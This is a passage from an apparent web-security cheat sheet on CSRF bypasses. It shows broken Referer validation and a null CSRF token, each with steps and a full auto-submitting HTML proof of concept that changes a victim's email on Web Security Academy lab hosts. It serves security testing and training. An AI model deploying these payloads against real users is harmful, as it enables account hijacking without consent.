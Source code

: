 ```markdown
```

## Bypass Method - 6 : Try [attacker.com](http://attacker.com) or similar payload in referer header. (Validation of Referer can be circumvented)

```markdown
Test case: CSRF with broken Referer validation

1. Intercept the request and try changing referer to some other domain. (Check all cases how it is been verified)
2. Now Generate a normal POC and include any JavaScript in the script block to alter the URL and Referer
3. Done Send it to victim.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac761f621f79d75680e4054c00160033.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="session" value="rk13v2KYDFByO0OFL0xnHcnIVZbvAHNg">
		<input type="text" name="email" value="gg@gg.com">
		<input type="submit" value="Send">
	</form>
<script>
			history.pushState("", "", "/?ac761f621f79d75680e4054c00160033.web-security-academy.net")
      document.forms[0].submit();
    </script>
</body>
</html>

```

## Bypass Method - 7: Send `null` value in csrf token.

```markdown
Test Case: Validation of CSRF token depends on token value being

1. Interect with functionality and intercept the request.
2. Send this requets to repeater.
3. Add null csrf param and generate csrf poc
4. Edit according to your preference,For example:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac8a1fbd1e6d76ae806817f900d50032.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="natsu@natsu.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Done send this to victim.
```

